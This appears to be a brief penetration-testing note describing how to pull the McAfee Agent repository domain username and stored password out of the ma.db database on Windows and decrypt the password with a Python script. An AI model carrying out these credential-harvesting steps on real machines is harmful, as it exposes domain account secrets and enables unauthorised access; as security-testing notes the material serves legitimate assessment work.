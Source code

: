 
1. Find the ma.db file inside C:\ProgramData\McAfee\Agent\DB

2. Browse the datebase using 
```Script
sqlitebrowser ma.db
```

3. Browse the AGENT_REPOSITORIES table and look for the DOMAIN, AUTH_USER, and AUTH_PASSWD field entries.
4. Decrypt the password using mcafee_sitelist_pwd_decrypt.py using the following script
```Script
python2 mcafee_sitelist_pwd_decrypt.py <AUTH PASSWD VALUE>
```
